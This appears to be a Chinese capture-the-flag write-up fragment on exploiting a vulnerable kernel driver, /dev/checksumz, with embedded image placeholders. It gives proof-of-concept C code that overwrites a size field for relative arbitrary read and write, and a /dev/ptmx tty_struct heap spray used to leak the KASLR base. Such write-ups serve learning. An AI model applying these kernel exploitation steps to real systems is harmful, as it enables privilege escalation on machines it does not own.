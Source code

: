 可见name为指针，不难想到覆盖指针来利用rename来进行任意写

POC

|C++<br>#include "api.h"<br>#include <stdio.h><br>#include <stdlib.h><br>#include <stdint.h><br><br>int fd;<br><br>int main() {<br>`        `fd = open("/dev/checksumz", O\_RDWR);<br>`        `lseek(fd, 512, SEEK\_SET);<br>`        `unsigned long buf[2];<br>`        `memset(buf, 0xff, sizeof(buf));<br>`        `write(fd, buf, sizeof(buf));<br>}|
| :- |

![](Aspose.Words.cb8be341-6b94-47a8-a23b-41df8bba93d4.001.png)

size已经被覆盖成0xffffffffffffffff，这样可以改pos来进行相对任意写和读。

为了能够知道内核地址，我们需要拿到kaslr基地址。可以利用tty\_struct 来创造含有内核地址的堆块

|C++<br>for(int i=0;i<0x100;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); }|
| :- |

这样在buf下面会有tty堆块可以读。在泄漏过程中可能会出现泄漏不成功，可以选择多创造点堆块来提升稳定性和在不同位置读堆块来稳定的获得基地址。

![](Aspose.Words.cb8be341-6b94-47a8-a23b-41df8bba93d4.002.png)
